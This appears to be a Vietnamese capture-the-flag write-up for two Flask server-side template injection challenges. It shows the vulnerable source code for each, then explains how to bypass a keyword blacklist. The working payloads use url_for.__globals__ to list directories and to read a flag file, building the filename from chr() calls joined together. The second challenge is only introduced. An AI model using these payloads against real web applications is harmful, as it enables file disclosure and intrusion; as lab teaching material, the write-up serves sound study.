


# Web-vkl CTF
## vkl ssti1
### Dạng bài ssti1:
Source code:

```
from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!--flag in /flag.txt-->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9999)
```
Nhìn vào source bài này thì mình thấy rất nhiều từ cần thiết đã bị filter, nên khả thi nhất lúc này là sử dụng:

```{{url_for.__globals__.__builtins__.open("filename").read()}}```

Nhưng ở đây có một vấn đề là ở đây cả `'` và `"` đều bị filter nên chúng ta không thể truyền được filename vào, mấu chốt của
của bài này là chúng ta phải giải quyết được chỗ này.

Trước tiên xác nhận xem flag có ở trong `/flag.txt` như tác giả nói hay không

```
{{url_for.__globals__.os.__dict__}}
```



Sử dụng `listdir()` để xem các file hiện tại:

```{{url_for.__globals__.os.__dict__.listdir()}}```



Vậy tác giả đã lừa chúng ta flag thực sự không nằm trong `/flag.txt` mà là `flag.txt`

Khi chúng ta truyền chuỗi vào thì `('a','b','c')|join` sẽ tương đương với `'abc'`

Nên tới đây mình sẽ sử dụng `chr` để chuyển về kí tự ascii sau đó dùng `join` để có được một chuỗi truyền vào.

Vậy chuỗi chúng ta truyền vào sẽ là: 

`(chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join`

Nhưng ở đây có một lưu ý là để sử dụng `chr` thì chúng ta phải gọi được built-in function `chr` ra trước:

``

Final payload:

```{{url_for.__globals__.__builtins__.open((chr(102),chr(108),chr(97),chr(103),chr(46),chr(116),chr(120),chr(116))|join).read()}}```

### Flag: web-vkl{filter_is_not_enough}

## vkl ssti2
### Dạng bài: ssti
Source code:
```

from flask import Flask, render_template, render_template_string, request, abort
app = Flask(__name__)

@app.route("/")
def index():
    def filter(s):
        blacklist = ['class', 'builtins','attr', 'mro', 'base', 'request', 'session', 'add','+', 'config' , 'subclasses', 'cookies', 'headers','\'', '[', ']', '"', '{}']

        block = True
        for i in blacklist:
            if i in s.lower():
                block = False
                break
        return block
    if not request.args.get('name'):
        return open(__file__).read()
    elif filter(request.args.get('name')):
        name = request.args.get('name')
    else:
        name = 'cut dcmm'
    template = '''

    <div >
        <p>Hello, %s</p>
    </div>
    <!-- -->
''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=9998)

```
Về cơ bản thì source code bài này giống với bài ssti 1 chỉ có một thay đổi là bị filter thêm chữ `builtins`.

...
